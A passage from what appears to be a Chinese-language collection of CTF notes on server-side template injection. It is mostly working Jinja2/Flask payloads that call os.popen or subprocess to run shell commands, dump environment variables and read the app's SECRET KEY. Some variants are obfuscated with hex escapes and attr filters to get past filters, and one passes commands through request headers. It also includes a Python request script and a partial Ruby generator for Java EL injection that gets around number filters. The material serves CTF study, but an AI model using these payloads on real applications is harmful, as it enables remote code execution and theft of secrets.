     url = ""
    d={"prefix":"{{","suffix":"}}","username":f"().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(140).__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()","a":"popen",'b':'env'}
    res = requests.post(url,data=d).text 
    print(res)
    ```
- `url_for.__globals__.os.__dict__.popen(request.args.file).read()`，然后传参file，内容为要执行的命令
- `url_for.__globals__.os.environ`,拿环境变量
- `config.__class__.from_envvar.__globals__.__builtins__.__import__(request.args.a).getenv(request.args.b)`，参数a是要导入的模块（os），参数b是环境变量名（把getenv换了就能执行别的了）
- `().__class__.mro()[1].__subclasses__()[337](get_flashed_messages.__class__.__mro__[1].__subclasses__()[3]((0x65,0x78,0x70,0x6f,0x72,0x74)).decode(),shell=True,stdout=-1).communicate()[0].strip()`
- `().__class__.__base__.__subclasses__()[148]()._module.__builtins__[request.args.b](request.args.c).environ`
- [Obligatory](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Obligatory.md)（ https://hackmd.io/@Chivato/HyWsJ31dI ）
     - `{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27cmd%27)|attr(%27read%27)()}}`
    - `{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(411)(%27cmd%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}`
    - 获取SECRET KEY：`{{self|attr("\x5f\x5fdict\x5f\x5f")}}`
- [PickYourStarter](https://github.com/MasonCompetitiveCyber/PatriotCTF2023/tree/main/Web/pickyourstarter)
    - 可以用自定义header传命令：`{{joiner.__init__.__globals__.os.popen(request.headers.cmd).read()}}`,然后header里添加`cmd: cat flag.txt`
`{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}`:用getitem绕`[]`过滤，`(1).__neg__()`绕负号过滤
- [My First App](https://ireland.re/posts/UofTCTF_2024/#webmy-first-app)
    - 过滤方括号、下划线及引号。利用lipsum逃逸，`|attr()`代替方括号，并将带有下划线的项放在请求头，用`request.pragma.0`访问（有些header里面没法放下划线，Pragma可以，所以用多个Pragma传递带有下划线的项，数字表示第i个Pragma里的内容）
    - https://gist.github.com/C0nstellati0n/248ed49dea0accfef1527788494e2fa5#my-first-app
- [Frog-WAF](https://fireshellsecurity.team/sekaictf-frog-waf-and-chunky/)
    - java ssti模板注入（[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)）。此题的难点在于waf，限制了所有数字和一些特殊符号与java的类名
    - 其他payload：
        - https://github.com/AlbertoFDR/CTF/tree/main/2023/ProjectSekai/web/Frog-WAF
        - https://gist.github.com/maikypedia/db98bc83cc76ec7c82e1a4347c6127ba
        - https://github.com/SuperStormer/writeups/tree/master/sekaictf_2023/web/frog-waf
        - https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00
        ```rb
        require 'http'
        def gen_s(s)
            a = <<E.strip!
            [].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()).getClass().getMethods()[#{Array.new(5, []).inspect}.size()].invoke([].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()), %s.size())
        E
            r = []
            s.chars.each do |c|
                r << a % Array.new(c.ord, []).inspect
            end
            sr = ""
            r.each do
                if sr.length.zero?
                    sr << _1
                    next
                else
                    sr << (".concat(%s)" % _1)
                end
            end
            sr